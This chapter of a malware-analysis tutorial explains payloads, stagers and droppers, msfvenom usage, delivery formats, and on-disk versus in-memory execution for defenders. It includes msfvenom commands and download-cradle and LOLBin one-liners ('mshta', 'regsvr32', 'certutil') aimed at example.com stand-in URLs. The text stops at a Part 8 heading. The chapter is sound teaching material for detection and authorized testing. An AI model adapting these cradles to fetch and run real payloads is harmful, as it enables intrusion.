








This is Chapter 2 of the Malware & Evasion notebook. Chapter 1 built the taxonomy — the precise vocabulary for trojans, RATs, ransomware, rootkits, loaders, droppers and stagers, and the modular kill chain that ties them together. This chapter zooms in on the earliest offensive stages of that chain: the **payload** (the code you ultimately want to run), and the **dropper** (the thing that gets it there and launches it). We look at how they are constructed, how they are staged, and — the part that matters most for everyone who is not conducting an authorized engagement — exactly what evidence each construction choice leaves behind.

A word on framing that governs this whole chapter, and continues the discipline Chapter 1 established. Everything here is written for **authorized red-team work, malware analysis, and defense**. It is deliberately **lab-scoped and defanged**: every illustration uses a benign payload (the universal example is *pop `calc.exe`*, which does nothing but open the Windows Calculator), the **EICAR** test string (a harmless industry-standard antivirus test file), or annotated traces of what a real sample would produce. There is **no working weaponized malware here, and no AV/EDR-evasion bypass** — evasion itself is Chapter 3, and even there it stays conceptual. The purpose of understanding *how* a dropper is assembled is so that you can recognise one in EDR telemetry, reverse one on an analysis bench, and build detections that survive contact with a real intrusion. Building, deploying, or distributing real malware against systems you do not own or lack **written authorization** to test is a serious crime in every jurisdiction. Learn this to defend and to conduct sanctioned assessments — nothing else.

We move from first principles — what a payload actually *is* at the byte level — through the payload/stager/dropper/loader distinction, staged vs stageless shellcode, the Metasploit and `msfvenom` tooling ecosystem (taught from scratch), the delivery-format wrappers, the anatomy of the classic download-and-execute dropper, in-memory vs on-disk execution and the telemetry each generates, a fully worked **analysis** lab on a benign generated sample, and a consolidated Detection & Defense part, closing with a cheat sheet and topic-specific practice resources.

## Why This Matters

If Chapter 1 gave you the nouns, this chapter gives you the verbs of initial access and execution. Almost every real intrusion — commodity ransomware crews, financially-motivated access brokers, nation-state operators — begins with the same two-part problem the attacker must solve: *what code do I want to run on the target, and how do I get it to run?* The first is the payload; the second is the dropper. Understanding both is not optional for a defender, because **the seam between "file arrives" and "code executes" is where most detection opportunity lives.**

Consider what happens the moment a user opens a malicious attachment. A document spawns a script interpreter; the interpreter reaches out to the network; a second file lands on disk or a buffer of shellcode is allocated in memory; execution jumps into it. Every one of those transitions is a **detection point** — a parent/child process relationship, an outbound connection from an unusual process, a memory region that is both writable and executable, a script that base64-decodes a blob and runs it. If you understand how droppers are built, you know exactly where those points are and what normal-versus-malicious looks like at each one.

There is a second reason this matters now. Payload construction has been **commoditized and templated**. Frameworks like Metasploit, Cobalt Strike, Sliver, and Havoc let an operator generate a working payload in one command, and criminal "builder" kits do the same for non-experts. That commoditization cuts both ways: it lowers the bar for attackers, but it also means the *artifacts* are well-understood and heavily signatured. A defender who knows what `msfvenom` output looks like, what a staged Meterpreter handshake looks like on the wire, and what a download-cradle looks like in a script log has a large head start — because a surprising share of real-world intrusions still use these off-the-shelf tools with only light modification.



**Blue team framing up front:** as you read each construction technique, keep asking "what would this look like in my telemetry?" That question — not the offensive mechanics for their own sake — is the entire point of the chapter. By the Detection & Defense part you should be able to map every technique here to a concrete data source (EDR process events, Sysmon, Zeek/Suricata, AMSI, script block logging) and a hunt hypothesis.

## Part 1: What a Payload Actually Is

Before we can talk about droppers, we have to be exact about what a **payload** is, because the word is used loosely. In the strict sense used across offensive tooling, a payload is **the code that runs on the target to achieve the attacker's immediate goal after code execution is obtained.** It is distinct from the *exploit* (the bug or trick that gets you code execution) and from the *delivery mechanism* (how the bytes reach the target). Exploit gets you the foothold; payload is what you do with it.

At the lowest level, the most fundamental payload is **shellcode**: a small, position-independent blob of machine code, historically named because a common goal was to spawn a shell (`/bin/sh` or `cmd.exe`). Position-independent means it does not rely on being loaded at a fixed address — it can be dropped into an arbitrary buffer in memory and executed. That property is what makes shellcode usable as an exploitation payload: when you overflow a buffer or hijack control flow, you rarely control *where* your bytes land, so they must run correctly *anywhere*.

Payloads exist on a spectrum of complexity:

- **Single instruction / minimal** — e.g. a few bytes that call `WinExec` to launch one program. Our benign running example, *pop calc*, is essentially this: shellcode whose only job is to launch `calc.exe`.
- **Command shell** — shellcode that spawns an interactive shell bound to a socket, giving the operator a raw command line.
- **Full-featured agent / implant** — a large payload such as **Meterpreter**, Cobalt Strike's **Beacon**, or Sliver's implant, providing a scripted command set (file transfer, screenshot, token manipulation, pivoting) over an encrypted C2 channel. These are effectively RATs (Chapter 1) delivered as a payload.

**Analyst relevance:** knowing where a sample sits on this spectrum tells you what to expect. A tiny shellcode stub that just calls `WinExec` behaves very differently on a bench than a full Meterpreter session that opens a TLS socket and waits for commands. The size and imports of the final payload are among the first things a reverser triages.

The benign anchor for the whole chapter — what "pop calc" looks like conceptually, expressed as harmless C rather than raw bytes, so we are illustrating *structure*, not shipping shellcode:

```c
/* Benign illustration ONLY — launches the Windows Calculator.
   This is the "hello world" of payload demonstrations: it proves
   code execution without doing anything harmful. */
#include <windows.h>

int main(void) {
    WinExec("calc.exe", SW_SHOWNORMAL);   // start calc.exe, show its window
    return 0;                             // WinExec is legacy but classic in demos
}
```

Everything a real payload does is a more capable version of "run something" — the difference is what it runs and how quietly. `WinExec` here is a deliberately old, simple Win32 API call (superseded by `CreateProcess`) chosen because every malware-analysis tutorial uses it as the canonical harmless demo. **Red team usage (authorized):** operators use *exactly this pattern* to validate that a delivery chain works end-to-end before ever attaching a real implant — if calc pops, the chain executes code, and only then is a real payload considered. Doing that validation with a benign payload is also good operational hygiene and good ethics.

## Part 2: Payload vs Stager vs Dropper vs Loader — Precise Definitions

Chapter 1 introduced these terms in the taxonomy; here we pin them down precisely, because the rest of the chapter depends on the distinctions and because job interviews, IR reports, and detection rules all use them with specific meanings.

| Term | What it is | Primary job | Typical size | Lives where |
|------|-----------|-------------|--------------|-------------|
| **Payload** | The end-goal code | Achieve the objective (shell, implant, exec) | Bytes → MBs | In memory, sometimes on disk |
| **Stager** | Tiny first-stage payload | Connect back, pull the larger *stage*, run it | Very small (hundreds of bytes) | In memory |
| **Stage** | The large second-stage payload the stager fetches | The actual implant (e.g. Meterpreter) | Large | Delivered into memory by the stager |
| **Dropper** | A carrier program/file | Get code onto the host and launch it | Small–medium | On disk (the delivered file) |
| **Loader** | Component that maps & executes code | Load a payload into memory and transfer control | Small | In memory / helper module |

The distinctions that trip people up:

- **Dropper vs downloader.** A **dropper** *contains* the next-stage payload embedded inside itself (it "drops" it out onto disk or into memory). A **downloader** contains no payload — it *fetches* the next stage from a network location. In practice the line blurs and "dropper" is often used loosely for both; precise IR writing distinguishes them because they have different network footprints (a pure dropper may make no outbound request at all until the payload runs).
- **Stager vs stage.** A **stager** is a minimal payload whose only purpose is to establish a channel and pull down the **stage** (the real, large payload) directly into memory. This split exists to keep the initially-delivered artifact tiny.
- **Loader vs dropper.** A **loader** is specifically about *execution mechanics* — taking a payload (often reflectively, without touching disk) and getting the OS or a manual mapper to run it. A dropper is about *delivery*; a loader is about *running*. A single malicious file often plays both roles.



**Blue team usage:** these categories map to different telemetry. A downloader shows up as an *outbound HTTP GET from an unusual process* early in the chain. A dropper shows up as a *file-write followed by execution of the written file* (a classic parent→child with a new binary on disk). A reflective loader shows up as *no new file at all* but an *RWX memory allocation and a thread starting in unbacked memory*. When you triage an alert, deciding *which* of these you are looking at immediately narrows where the rest of the evidence will be.

## Part 3: Staged vs Stageless Payloads

One of the most important construction choices — and one with direct detection consequences — is whether a payload is **staged** or **stageless** (also called "single").

A **stageless** payload is entirely self-contained: the full implant is delivered in one shot. When it runs, everything it needs is already present. In Metasploit naming, these use underscores, e.g. `windows/x64/meterpreter_reverse_https` (note the single word `meterpreter_reverse_https`).

A **staged** payload is split. A tiny **stager** is delivered first; when it runs, it connects back to the operator's listener and downloads the much larger **stage** (the real implant) directly into memory, then executes it. In Metasploit naming, these use slashes, e.g. `windows/x64/meterpreter/reverse_https` (the `/` between `meterpreter` and `reverse_https` is the giveaway that it is staged).

That naming convention is worth memorising because it appears constantly in IR:

| Convention | Meaning | Example |
|-----------|---------|---------|
| `payload/transport` (slash) | **Staged** | `windows/x64/meterpreter/reverse_tcp` |
| `payload_transport` (underscore) | **Stageless** | `windows/x64/meterpreter_reverse_tcp` |

Trade-offs:

| Aspect | Staged | Stageless |
|--------|--------|-----------|
| Initial artifact size | Tiny (good for size-limited exploits) | Large |
| Network chatter | Extra round-trip to pull the stage (detectable) | Single connection |
| Reliability | Fails if the stage download fails | More robust once delivered |
| On-disk footprint | Minimal initially | Larger initial file |
| Detection surface | The **stage retrieval** is a strong network signal | Larger static file to signature |



**Blue team usage:** the staged handshake is a *gift* to network defenders. The classic Metasploit `reverse_tcp` stager retrieves the stage by first reading a 4-byte length and then that many bytes — a pattern IDS signatures (and the well-known Emerging Threats rules) have matched on for over a decade. Even over TLS (`reverse_https`), the *timing and sequence* — a tiny outbound connection immediately followed by a large inbound transfer into a process that just started — is anomalous. **Red team usage (authorized):** operators pick stageless when they expect network-level inspection of that retrieval, and staged when the exploit primitive can only carry a few hundred bytes. The choice is a detection-versus-constraints trade-off, and naming which one you found is a real IR skill.

## Part 4: The Tooling — Metasploit and msfvenom From Scratch

Because AUTHORING requires teaching every tool from zero the first time it appears, and because `msfvenom` output is one of the single most-encountered artifacts in real IR, we cover the Metasploit tooling ecosystem here — as an **analysis and authorized-testing** tool.

### What Metasploit is

The **Metasploit Framework** is an open-source exploitation and payload-development framework maintained by Rapid7, shipped by default on Kali Linux. It exists so that penetration testers and researchers do not have to hand-write exploits and payloads from scratch. Conceptually it has a few core object types:

- **Exploits** — code that leverages a specific vulnerability.
- **Payloads** — the code to run after exploitation (Part 1).
- **Encoders** — transform payload bytes (historically to avoid bad characters like null bytes, *not* reliably to evade modern AV).
- **NOPs** — no-operation sled generators.
- **Auxiliary/Post** — scanners, and post-exploitation modules.

Two front-end programs matter for this chapter:

- **`msfconsole`** — the interactive console that ties everything together and hosts *listeners* (handlers) that catch a payload calling back.
- **`msfvenom`** — the standalone command-line **payload generator and encoder**. It is the merger of the older `msfpayload` + `msfencode` tools, and it is what actually produces the payload artifacts a defender ends up analysing.

### Installing / locating it (Kali)

On Kali it is preinstalled. To confirm and initialise the database:

```bash
# Confirm msfvenom is present and see its version
msfvenom --version

# Initialise the Metasploit database (first run), used by msfconsole
sudo msfdb init

# Launch the interactive console
msfconsole -q          # -q suppresses the banner
```

If it is not installed (a non-Kali analysis VM), the vendor-maintained installer is the supported route; you would only ever do this inside an **isolated, non-production analysis lab** with no route to systems you do not own.

### msfvenom core workflow and flags

The single most useful command to *understand* (whether you are an authorized tester or a defender learning what the artifacts look like) is a payload-listing and a benign generation. First, discovery:

```bash
# List all payloads (there are hundreds); filter to windows x64
msfvenom --list payloads | grep 'windows/x64' | head

# List the output formats msfvenom can wrap a payload in
msfvenom --list formats

# List encoders
msfvenom --list encoders
```

The key flags, each explained (this is the "teach every flag" requirement):

| Flag | Meaning | Example value |
|------|---------|---------------|
| `-p` | **Payload** to generate | `windows/x64/exec` |
| `-f` | Output **format** | `exe`, `dll`, `raw`, `c`, `ps1`, `hta-psh` |
| `-o` | **Output** file | `demo.exe` |
| `-a` | **Architecture** | `x64`, `x86` |
| `--platform` | Target **platform** | `windows`, `linux` |
| `-e` | **Encoder** to apply | `x86/shikata_ga_nai` |
| `-i` | **Iterations** of encoding | `3` |
| `-b` | **Bad characters** to avoid | `'\x00\x0a'` |
| `LHOST`/`LPORT` | Listener host/port (as `key=value` payload options) | `LHOST=10.0.0.5 LPORT=4444` |
| `CMD` | Command for `exec` payloads | `CMD=calc.exe` |

**The benign, defanged generation this chapter is built around.** Instead of generating a reverse shell (a real payload), we generate the harmless *exec-calc* payload — the industry-standard safe demonstration. It proves the tool and the format wrapper work without creating anything that phones home or grants access:

```bash
# BENIGN: produce an EXE whose only action is to launch calc.exe.
# windows/x64/exec runs a single command; CMD=calc.exe = pop calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f exe -o calc_demo.exe

# Same benign payload emitted as C-array bytes, so you can SEE the shellcode
# structure on the bench without running anything harmful:
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

Realistic annotated output of the first command:

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Final size of exe file: 7168 bytes
Saved as: calc_demo.exe
```

And the `-f c` form (truncated, benign) shows why "shellcode" is just an array of bytes a loader will jump into:

```c
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
/* ... ~276 bytes total; ends by resolving WinExec and calling calc.exe ... */ ;
```

**Analyst relevance:** those first bytes (`\xfc\x48\x83\xe4\xf0…`) are so characteristic of Metasploit x64 shellcode (the `cld; and rsp, ~0xf` prologue that aligns the stack, followed by the PEB-walking API-resolution stub) that seeing them in a memory dump or a decoded script blob is a strong indicator you are looking at MSF-derived shellcode. This is exactly the kind of pattern YARA rules key on.

### About encoders — a common myth

Beginners often believe `-e x86/shikata_ga_nai -i 10` "makes the payload FUD (fully undetectable)." **It does not.** Encoders were designed to remove *bad characters* and satisfy exploit constraints, not to defeat modern AV/EDR. The decoder stub itself is signatured, and behavioural detection ignores the encoding entirely once the payload executes. We flag this myth because it is the single most common misconception in this space, and because **defenders benefit from knowing that encoding does not change behaviour** — the runtime telemetry is identical whether or not `shikata_ga_nai` was applied. Real evasion is Chapter 3's subject and is far more involved; this chapter deliberately does not go there.

## Part 5: Delivery-Format Wrappers

A raw shellcode blob cannot be emailed to a victim and double-clicked. The payload has to be wrapped in a **format** the target will execute — and the choice of wrapper is one of the richest sources of detection signal, because each format has a *normal* usage profile that malicious use deviates from. `msfvenom -f` (and other builders) can emit many; the common ones:

| Format (`-f`) | Container | How it runs | Normal use | Malicious signal |
|--------------|-----------|-------------|-----------|------------------|
| `exe` | PE executable | User/dropper runs it | Software installers | Unsigned EXE from temp/downloads, spawned by Office |
| `dll` | PE DLL | Loaded by a host process (`rundll32`, sideloading) | Shared libraries | DLL run from user-writable path; `rundll32` w/ odd export |
| `ps1` | PowerShell script | `powershell.exe` interprets it | Admin automation | Encoded/obfuscated one-liners, download cradles |
| `hta` / `hta-psh` | HTML Application | `mshta.exe` runs it | Legacy intranet apps | `mshta` fetching remote `.hta` |
| `vba` / macro | Office macro | Word/Excel VBA engine | Legit business macros | Macro spawning `powershell`/`wscript` |
| `js` / `vbs` | Windows Script Host | `wscript.exe`/`cscript.exe` | Legacy login scripts | `.js`/`.vbs` in an email attachment |
| `raw` | Just the bytes | Injected by a loader | (n/a) | Feeds in-memory loaders |

The critical defensive idea is **Living Off the Land Binaries (LOLBins)**: many wrappers rely on *legitimate, signed, built-in Windows programs* to do the execution — `mshta.exe`, `rundll32.exe`, `regsvr32.exe`, `powershell.exe`, `wscript.exe`, `msbuild.exe`. Attackers favour these because they are already present and trusted. Defenders exploit the same fact: these binaries have *known-normal* parents and command lines, so anomalous invocations stand out sharply.



**Blue team usage — the Office→interpreter chain.** The highest-value single detection in this whole area is a **document-handler process spawning a script interpreter**: `winword.exe`, `excel.exe`, or `outlook.exe` as the *parent* of `powershell.exe`, `cmd.exe`, `wscript.exe`, `mshta.exe`, or `rundll32.exe`. Legitimate documents essentially never do this. A single Sysmon Event ID 1 (process create) rule on that parent/child pair catches an enormous fraction of commodity droppers regardless of the payload inside. We return to this in Part 11.

**Bug bounty / CTF note:** macro and HTA payload construction shows up constantly in "assumed breach" CTFs and in HackTheBox/TryHackMe Windows boxes that hand you a phishing-style entry (e.g. rooms that require an `.hta` or malicious-macro foothold). Recognising the wrapper format from a captured artifact is a common flag-adjacent task.

## Part 6: Anatomy of the Classic Download-and-Execute Dropper

Now we assemble the pieces conceptually. The archetypal commodity dropper — the pattern behind a huge share of real intrusions — is **download-and-execute**: a small first file that retrieves a second-stage payload from the network and runs it. We describe it as *structure and behaviour*, illustrated with a **benign** cradle that fetches and runs a harmless file, so you understand the shape without possessing a weapon.

The logical stages of a download-execute dropper:

1. **Foothold execution** — the dropper runs (user double-clicked, macro fired, exploit landed).
2. **Environment check (optional)** — is this a sandbox? (malware often checks; we note it for detection, not to implement it).
3. **Retrieve** — pull the next stage over HTTP(S)/DNS from attacker infrastructure.
4. **Place** — write it to disk (e.g. `%TEMP%`, `%APPDATA%`) *or* keep it purely in memory.
5. **Execute** — launch the payload (new process, injected thread, or reflective load).
6. **Persist (optional)** — add an autostart so it survives reboot (Chapter on persistence covers this).



A **benign** PowerShell download cradle — the single most-seen dropper primitive in the wild — shown here fetching a *harmless* file so you can recognise the shape in logs. This deliberately downloads a benign text file and does **not** execute anything malicious:

```powershell
# BENIGN illustration of the "download cradle" pattern defenders hunt for.
# In real malware the URL serves a payload and the result is executed in memory;
# here it fetches a harmless file and just prints it. Structure == the threat;
# behaviour == harmless.
$u = 'https://example.com/benign-note.txt'
$data = (New-Object Net.WebClient).DownloadString($u)   # classic cradle call
Write-Output $data                                       # <-- benign: print, do NOT iex
```

The malicious version of that last line would pipe `$data` into `Invoke-Expression` (`iex`) to execute a downloaded script in memory. **We intentionally stop at `Write-Output`** — that one substitution is the entire difference between an illustration and a weapon, and the point of showing it this way is so a defender knows *exactly* what the dangerous variant looks like in a script-block log: a `DownloadString`/`DownloadData`/`Invoke-WebRequest` immediately feeding `IEX`.

The equivalent classic LOLBin one-liners defenders memorise (shown benignly — these fetch, they do not weaponize):

```text
# mshta fetching a remote HTA (benign target). Real abuse points at attacker HTA.
mshta https://example.com/benign.hta

# regsvr32 "Squiblydoo" pattern shape (benign URL). The scrobj/COM abuse is what
# makes the real version dangerous; the recognisable signal is regsvr32 + a URL.
regsvr32 /s /n /u /i:https://example.com/benign.sct scrobj.dll

# certutil as a downloader (a LOLBin famous for this) — benign file here.
certutil -urlcache -split -f https://example.com/benign.bin benign.bin
```

**Blue team usage:** each of these has a rock-solid detection because the *program* almost never legitimately behaves this way. `regsvr32` contacting the internet, `certutil` downloading a file, `mshta` fetching a remote resource, or PowerShell doing `DownloadString`→`IEX` are all high-fidelity indicators. Memorise the *tool + verb* pairs; the payload inside is almost irrelevant to catching the cradle.

**Red team usage (authorized):** operators build the retrieve/place/execute steps to minimise on-disk artifacts (favouring in-memory execution) and to blend network retrieval into normal-looking HTTPS. The defensive counter is exactly the telemetry above plus TLS/JA3 and domain-reputation analysis — which is why serious operators also spend effort on infrastructure that looks benign, and why defenders correlate *behaviour* rather than trusting any single indicator.

## Part 7: On-Disk vs In-Memory Execution

A defining modern choice is whether the payload ever **touches disk**. This single decision reshapes the entire telemetry picture, so it deserves its own part.

**On-disk execution** writes the payload to a file and runs it (`CreateProcess`, double-click, `rundll32 payload.dll,Export`). It is simpler and more reliable, but it leaves the richest evidence: a file on disk that AV can scan, that leaves `$MFT` and USN-journal records, that has a hash you can look up, and that generates a file-create event.

**In-memory / fileless execution** never writes the final payload to disk. The dropper allocates memory, copies shellcode/PE bytes into it, and transfers execution — via injection into another process, or a **reflective loader** that maps a PE in memory the way the OS loader normally would from disk. This defeats naïve "scan the file" AV, which is why it is popular, but it creates *different*, still-detectable evidence: memory regions with **write+execute** permissions, threads whose start address is in **unbacked** (not file-mapped) memory, and API-call sequences (`VirtualAlloc` → `WriteProcessMemory`/`memcpy` → `CreateThread`/`CreateRemoteThread`) that EDR user-mode hooks and ETW can observe.

| Dimension | On-disk | In-memory / fileless |
|-----------|---------|----------------------|
| Final payload file exists | Yes | No |
| Traditional AV file scan | Effective | Bypassed |
| Key evidence | File hash, MFT, file-create event | RWX memory, unbacked thread, API sequence |
| EDR detection vector | Static + behavioural | Behavioural / memory-scanning |
| Forensic recovery | Easy (file on disk) | Requires memory capture |
| Complexity | Low | Higher |



**Blue team usage:** the classic in-memory tell is a memory region that is simultaneously **writable and executable (RWX)** — legitimate code is normally write *then* execute-but-not-write (W^X). EDRs and tools like Volatility's `malfind`, or a Sysmon+ETW `CreateRemoteThread` (Event ID 8) rule, surface exactly this. The lesson for defenders is that "fileless" is not "invisible" — it just moves the evidence from the filesystem to memory and behaviour, which is why endpoint memory scanning and API telemetry matter so much. **Analyst relevance:** if you cannot find a dropped file but the box is clearly compromised, pivot immediately to a memory image and hunt RWX + unbacked-thread regions rather than assuming there is nothing to find.

## Part 8: Persistence Hooks a Dropper Commonly Adds (Preview)

